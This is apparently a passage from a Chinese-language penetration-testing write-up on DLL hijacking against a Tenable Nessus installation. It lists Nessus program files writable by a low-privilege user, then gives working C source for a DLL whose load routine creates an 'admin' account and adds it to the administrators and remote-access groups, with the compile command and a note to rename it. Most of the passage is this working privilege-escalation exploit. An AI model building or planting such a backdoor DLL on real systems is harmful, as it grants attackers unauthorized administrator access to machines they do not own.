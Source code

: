 ```shell
   ==>  C:\Program Files\Tenable\Nessus\icudt73.dll (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\icuuc73.dll (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\legacy.dll (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\License.rtf (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\nasl.exe (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\ndbg.exe (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\Nessus Web Client.url (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\nessus-service.exe (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\nessuscli.exe (nesus [AllAccess])
   ==>  C:\Program Files\Tenable\Nessus\nessusd.exe (nesus [AllAccess])

```

### 7.2. dll制作


这里我利用作者的代码生成一个用于新建管理员的dll

```c
#include <stdlib.h>  
  
#include <windows.h>  
 // COMPILE  
// x86_64-w64-mingw32-gcc adduser.c --shared -o adduser.dll  
BOOL APIENTRY DllMain(  
  HANDLE hModule, // Handle to DLL module  
  DWORD ul_reason_for_call, // Reason for calling function  
  LPVOID lpReserved) // Reserved  
{  
  switch (ul_reason_for_call) {  
  case DLL_PROCESS_ATTACH: // A process is loading the DLL.  
    int i;  
    i = system("net user admin admin /add");  
    i = system("net localgroup administrators admin /add");  
    i = system("net localgroup 'remote management' admin /add");  
    i = system("net localgroup 'remote desktop' admin /add");  
    break;  
  case DLL_THREAD_ATTACH: // A process is creating a new thread.  
    break;  
  case DLL_THREAD_DETACH: // A thread exits normally.  
    break;  
  case DLL_PROCESS_DETACH: // A process unloads the DLL.  
    break;  
  }  
  return TRUE;  
}
```

编译
```
C:\Users\yu>x86_64-w64-mingw32-gcc C:\Users\yu\Desktop\admin.c --shared -o admin.dll
```
替换名字
